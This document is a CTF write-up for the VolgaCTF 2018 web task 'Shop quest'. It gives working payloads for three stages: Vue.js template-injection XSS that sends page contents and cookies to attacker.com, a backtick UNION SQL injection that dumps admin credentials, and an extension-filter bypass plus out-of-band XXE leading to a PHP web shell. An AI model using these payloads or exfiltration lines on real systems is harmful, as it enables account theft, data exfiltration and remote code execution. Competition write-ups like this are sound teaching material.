



# Shop quest
Category: Web Points: 500 Solves: 0 Description:

For this task, teams could get 500 points, it consisted of several stages that led to the execution of the code. 
Unfortunately, because of the heavy workload, the task sometimes worked slowly, but it was still possible to solve it. 
Nobody received the flag, although some teams went through 2 stages out of three and almost reached the goal. 
I hope that to solve it in any case was interesting and glad that many attempted to get the flag.

## Stage 1 - Client side
Firstly, we can see a main page. In the browser console, we can see the name of the Vue.js framework used to chat with the operator.
Secondly, in source code we can see injection point, there is the customer name, which is specified at registration.



This XXS will work on the operator page. 
Final attack vector for stealing Operator info:
```
${toString.constructor('var http=new XMLHttpRequest();http.open("POST","http://attacker.com/?bot", true);http.setRequestHeader("Content-type","application/x-www-form-urlencoded");http.send("res="+btoa(unescape(encodeURIComponent(document.body.innerHTML))));')()}
```
On *attacker.com* we can see the page where the operator is located reading our message.
Decode this page and find operator's password:

*Change your default password: Floise_default_@@@f*

But, you can ask: "Where can I find the login? Login "Operator" doesn't work!"
Ok) We can see non http only cookie - *userId*. This is IDOR. We can steal operator's cookie and make request to the server with it.

```${toString.constructor('document.location = "http://attacker.com/?"+document.cookie')()}```


Login as Operator:

login: Mark_323212

Password: Floise_default_@@@f

## Stage 2 - SQL Injection



Here we can see operator's page. The operator has three additional methods:

+ GET /Chat/getMessages?chatId=1
+ GET /Operator/chat?chatId=1
+ POST /Chat/sendToClient

After a few minutes of fuzzing we can see that the first one may response with 500 status code.
Unfortunately, automatic scanners will not give anything here. We need professional pentester's skills!

+ /Chat/getMessages?chatId=1'--+-
+ /Chat/getMessages?chatId=1"--+-
+ /Chat/getMessages?chatId=1`--+-

WoW! The third one retrieve status code 200! So, there is injection in chat table name.

```SELECT * FROM `chat_<chatId>````

This is UNION based injection and we can see output. 
After a difficult dumping of the database structure, we find out the login and password hash of the admin.

Query:
```
http://shop-quest.quals.2018.volgactf.ru/Chat/getMessages?chatId=1`+union+select+login,hash,role,4+from+users+where+role=3--+-
```

Answer:
```
{"status":"ok","messages":[{"id":"1","text":"Hi. man","is_operator":0,"time":"11:02 PM"},{"id":"2","text":"May the Force be with you","is_operator":1,"time":"11:02 PM"},{"id":"3","text":"sdfsdf","is_operator":1,"time":"11:06 PM"},{"id":"Bibant","text":"3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c","is_operator":3,"time":"4"}]}
```

*Bibant / 3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c*

Hash is sha256. The first thing that comes to mind is the online brute password. It's success.

Login as Admin:

login: Bibant

Password: insaneclownposse

## Stage 3 - RCE

This stage is final and allows uploading php shell. There is simple extension filter in uploads, words *php* and *htm* are replaced by empty string.

We have simple bypass like: *shell.pphphp*

When we upload a file, we obtain the generated random name for it. 



But where is our shell? Let's read source code of site. We have the ability to save product info in XML format. Maybe XXE? YES!

However, even if the file is valid, the error is returned, that the functionality does not work yet.

*{"status":"error","message":"Table `goods` doesn't exist"}*

Let's try OOB XXE, and read index.php. Maybe it exists on the server. Send this payload:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker.com/oob.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

oob.xml
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?%data;'>">
```

We received index.php and than we have to read several files to find the file download code:
```
require_once 'utils/Core.php';
```

*utils/Core.php*
```
foreach ( glob( $_SERVER['DOCUMENT_ROOT'] . '/controllers/*Controller.php' ) as $filename ) {
```

*controllers/AdminController.php*
```
require_once 'utils/Uploader.php';
```

Finally, file is uploaded to:
```
/uploads_FjsyFkf/md5(user_login . asdasHF$&@(F&@)AF)JFN)/
```

user_login = Bibant, and we can finally find the flag:

*Find flag:*
```
http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=find / -name flag*
```

*Read flag:*
```
http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=cat /home/flag*
```

Flag is: VolgaCTF{30ff764e5e70f8df3d3f6944c12d0f1a}

P.S. If you have read to the end, you are already a hero)


